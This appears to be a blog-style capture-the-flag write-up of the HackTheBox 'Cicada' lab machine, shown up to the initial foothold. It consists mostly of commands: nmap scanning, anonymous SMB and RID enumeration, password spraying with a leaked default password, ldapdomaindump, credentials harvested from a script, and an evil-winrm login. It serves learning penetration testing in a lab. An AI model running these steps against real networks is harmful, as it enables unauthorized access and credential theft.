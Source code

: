 ```yaml
---
layout: blog
title: Cicada HackTheBox
category: Cicada-HackTheBox
date: 1997-01-23
---
```

### Service Enumeration

**Port Scan Results**

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.92.110       | **TCP**: 53,88,135,139,389,445,464,593,3268,3269,5985,63935

Ran nmap to scan for common TCP ports open on the target.

```bash
sudo nmap -sC -sV 10.10.11.35 -oA nmap -v 
```
![](<Pasted image 20241011182259.png>)
![](<Pasted image 20241011182323.png>)

Ran another nmap scan to identify any other open TCP ports on the target.
```bash
nmap -sV -p- -v 10.10.11.35 -oA nmap2
```
![](<Pasted image 20241011183159.png>)


**139,445 - SMB Enumeration**

The SMB share allows anonymous login which can be be exploited using the command below:
```bash
smbclient -N -L \\10.10.11.35
```
![](<Pasted image 20241011182605.png>)

Connected to the HR SMB share.
```bash
smbclient -N -L \\10.10.11.35
```
Under HR, found a file "Notice from HR.txt"
```
Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Based on the HR notice above, I added cicada.htb to /etc/hosts file that will resolve cicada.htb to the corresponding IP at 10.10.11.35.
```bash
sudo nano /etc/hosts
```
```
10.10.11.35 cicada.htb
```

Since the machine allows Guest session, I used this to enumerate users and shares on the target system.
```bash
nxc smb 10.10.11.35 -u Guest -p '' --rid-brute > user.txt
```
This will save a list of users on the system in a file named `user.txt`. Discovered all these usernames:
```
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
Administrator
Guest
krbtgt
CICADA-DC$
```

Now I am going to use the credential found from the HR notice along with the gathered list of usernames against the target to check for valid credentials.
```
nxc smb 10.10.11.35 -u user.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![](<Pasted image 20241012200417.png>)

I have a valid user `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`. Now, that I have valid credentials for a user on the target system, I can use `ldapdomaindump` to gather more details including users, groups, containers, etc.
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --no-json cicada.htb
```
![](<Pasted image 20241012202346.png>)
Running `ldapdomaindump` generates a `domain_users.html` file that contains interesting information on one of the other users - david.orelious. The user account description for david.orelious says:
```
Just in case I forget my password is aRt$Lp#7t*VQ!3
```
![](<Pasted image 20241012202346-1.png>)

Now that I have another set of credentials, I am going to attempt to access another SMB share folder /DEV as user david.orelious.
```bash
smbclient -U 'cicada.htb/david.orelious' \\\\10.10.11.35\\DEV
```
This share contains `Backup_script.ps1`. Downloaded the script file in local system
```
smb> get Backup_script.ps1
```
![](<Pasted image 20241012202801.png>)
This script contains credentials for another user `emily.oscars:Q!3@Lp#M6b*7t*Vt`. Leveraging the user information gathered from `ldapdomaindump`, I know that the user `emily.oscars` has remote management access and is also a member of backup operators group.
![](<Pasted image 20241012202906.png>)

**Initial Foothold - emily.oscars**

I can now log in as user `emily.oscars` over WinRM. I am going to use [evil-winrm](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm#using-evil-winrm) to get PowerShell access.
```bash
evil-winrm -i 10.10.11.35 -u 'cicada.htb\emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```







